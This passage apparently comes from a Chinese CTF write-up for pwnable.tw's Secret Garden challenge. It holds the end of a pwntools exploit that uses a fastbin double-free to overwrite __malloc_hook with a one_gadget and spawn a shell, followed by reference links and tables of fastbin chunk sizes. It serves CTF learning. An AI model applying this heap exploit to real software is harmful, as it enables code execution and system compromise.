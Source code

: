 ```python
leak("libc",libc_addr)

#get shell
malloc_hook = libc_addr + libc.symbols['__malloc_hook']
fake_chunk = malloc_hook-0x23
one_gadegt_addr = libc_addr + 0xef6c4
add(0x60,'1','1')
add(0x60,'1','1')
rm(4);rm(5);rm(4)
add(0x60,p64(fake_chunk),'1')
add(0x60,'1','1')
add(0x60,'1','1')
add(0x60,'a'*19+p64(one_gadegt_addr),'1')

rm(5)
rm(5)


io.interactive()

```



参考：

- [和媳妇一起学Pwn 之 Secret Garden](https://xuanxuanblingbling.github.io/ctf/pwn/2020/03/21/garden/)
- [pwnable.tw中的secretgarden](https://www.lyyl.online/2019/09/27/pwnable-tw%E4%B8%AD%E7%9A%84secretgarden/)

## fastbin-size

32位：

| gef fastbin item           | chunk size | data interval         | fake chunk size |
| :------------------------- | :--------- | :-------------------- | :-------------- |
| Fastbins[idx=0, size=0x8]  | 0x10       | [0x01,0x0c] , [1,12]  | [0x10,0x17]     |
| Fastbins[idx=1, size=0x10] | 0x18       | [0x0d,0x14] , [13,20] | [0x18,0x1f]     |
| Fastbins[idx=2, size=0x18] | 0x20       | [0x15,0x1c] , [21,28] | [0x20,0x27]     |
| Fastbins[idx=3, size=0x20] | 0x28       | [0x1d,0x24] , [29,36] | [0x28,0x2f]     |
| Fastbins[idx=4, size=0x28] | 0x30       | [0x25,0x2c] , [37,44] | [0x30,0x37]     |
| Fastbins[idx=5, size=0x30] | 0x38       | [0x2d,0x34] , [45,52] | [0x38,0x3f]     |
| Fastbins[idx=6, size=0x38] | 0x40       | [0x35,0x3c] , [53,60] | [0x40,0x47]     |

64 位：

| gef fastbin item           | chunk size | data interval           | fake chunk size |
| :------------------------- | :--------- | :---------------------- | :-------------- |
| Fastbins[idx=0, size=0x10] | 0x20       | [0x01,0x18] , [1,24]    | [0x20,0x2f]     |
| Fastbins[idx=1, size=0x20] | 0x30       | [0x19,0x28] , [25,40]   | [0x30,0x3f]     |
| Fastbins[idx=2, size=0x30] | 0x40       | [0x29,0x38] , [41,56]   | [0x40,0x4f]     |
| Fastbins[idx=3, size=0x40] | 0x50       | [0x39,0x48] , [57,72]   | [0x50,0x5f]     |
| Fastbins[idx=4, size=0x50] | 0x60       | [0x49,0x58] , [73,88]   | [0x60,0x6f]     |
| Fastbins[idx=5, size=0x60] | 0x70       | [0x59,0x68] , [89,104]  | [0x70,0x7f]     |
| Fastbins[idx=6, size=0x70] | 0x80       | [0x69,0x78] , [105,120] | [0x80,0x8f]     |